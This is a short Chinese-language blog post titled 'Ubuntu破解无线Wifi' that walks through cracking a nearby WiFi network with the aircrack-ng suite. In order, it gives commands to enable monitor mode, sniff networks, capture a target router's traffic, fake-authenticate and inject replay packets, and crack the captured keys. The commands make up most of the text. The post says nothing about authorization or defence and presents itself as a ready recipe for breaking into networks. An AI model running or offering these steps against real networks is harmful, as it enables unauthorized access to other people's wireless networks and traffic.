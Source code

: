 ```yaml
---
title: Ubuntu破解无线Wifi
date: 2019-09-15 21:00:31
tags: aircrack-ng 
---
```

# 1.查看网络接口
Ubuntu 中，通常有线网卡端口为enp2s0(eth0)，无线网卡端口则为wlp1s0(wlan0)，使用wlp3s0这种复杂的名字主要是为了减少网卡的枚举。
```bash
ifconfig
```
查看无线网卡的端口。wlp1s0
查看MAC地址,在ether后面。a0:c5:89:77:47:78

# 2.工具
aircrack-ng:
Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上（设备列表请参阅其官方网站）并嗅探802.11a，802.11b，802.11g的数据。该程序可运行在Linux和Windows上。Linux版本已经被移植到了Zaurus和Maemo系统平台, 并概念验证可移植到iPhone。

# 3.启动无线网卡监听模式
```bash
sudo airmon-ng start +无线网卡的端口
```

# 4.监听周围所有无线网络
```bash
sudo airodump-ng +无线网卡的端口 （注意在将无线网卡变为监听模式后，端口名会改变）wlp1s0mon
```

# 5.监听指定的无线网络（注意要在新的窗口哦）
```bash
sudo airodump-ng --bssid +路由器MAC -c +信道 -w +文件名 +无线网卡的端口  64:58:AD:44:AF:16
```

# 6.与AP建立虚拟连接（注意在新的窗口哦）
```bash
sudo aireplay-ng -1 0 -a +路由器MAC -h +本机无线网卡MAC +无线网卡端口
```

# 7.进行注入
```bash
sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b +路由器MAC -h +本机无线网卡MAC +无线网卡端口
```

# 8.解密
```bash
sudo aircrack-ng +文件名*.cap
```

# 9.结束
```bash
sudo airmon-ng stop +无线网卡端口
```
